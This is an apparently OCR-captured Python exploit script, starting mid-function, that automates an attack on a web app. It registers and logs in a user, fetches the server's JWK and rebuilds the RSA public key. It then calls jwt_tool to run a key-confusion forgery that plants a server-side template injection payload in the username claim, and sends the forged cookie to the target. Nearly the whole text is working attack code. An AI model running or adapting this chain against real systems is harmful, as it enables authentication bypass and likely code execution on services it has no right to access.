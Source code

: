```python
    token = client.cookies.get("token")
    return token

def download_jwk():
    response = httpx.get(JWK_URL)
    if response.status_code == 200:
        return response.json()['keys'][0]
    else:
        return None

def rsa_public_key_from_jwk(jwk):
    n = base64url_decode(jwk['n'].encode('utf-8'))
    e = base64url_decode(jwk['e'].encode('utf-8'))
    n_int = int.from_bytes(n, 'big')
    e_int = int.from_bytes(e, 'big')
    rsa_key = RSA.construct((n_int, e_int))
    public_key_pem = rsa_key.export_key('PEM')
    with open("recovered_public.key", "wb") as f:
        f.write(public_key_pem)
        if not public_key_pem.endswith(b'\n'):
            f.write(b"\n")

def modify_jwt_with_tool(token):
    command = [
        "python", f"{JWT_TOOL_PATH}/jwt_tool.py", token, "-X", "k", "-pk", "./recovered_public.key", "-I", "-pc", "username", "-pv", SSTI_PAYLOAD
    ]
    result = subprocess.run(command, capture_output=True, text=True)
    for line in result.stdout.splitlines():
        if line.startswith("[+] "):
            modified_token = line.split(" ")[1].strip()
            return modified_token
    return None

def test_ssti(modified_token):
    cookies = {'token': modified_token}
    response = httpx.get(CAT_URL, cookies=cookies)

def main():
    username = "zzzzzz"
    password = "zzzzz"

    if not register_user(username, password):
        return

    jwt_token = login_user(username, password)
    if not jwt_token:
        return

    jwk = download_jwk()
    if not jwk:
        return

    rsa_public_key_from_jwk(jwk)

    modified_jwt = modify_jwt_with_tool(jwt_token)
    if not modified_jwt:
        return

    test_ssti(modified_jwt)

if __name__ == "__main__":
    main()
```